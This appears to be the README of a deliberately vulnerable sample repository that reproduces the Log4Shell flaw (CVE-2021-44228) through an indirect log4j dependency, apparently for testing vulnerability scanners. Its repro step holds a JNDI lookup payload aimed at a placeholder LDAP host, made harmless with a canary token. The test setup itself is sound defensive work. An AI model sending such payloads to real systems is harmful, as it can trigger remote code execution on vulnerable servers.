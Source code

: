 # sample-vulnerable-log4j-indirect-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) because it indirectly depends on a vulnerable version of log4j via its dependency on https://github.com/sgtest/sample-vulnerable-log4j-direct-lib.

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).
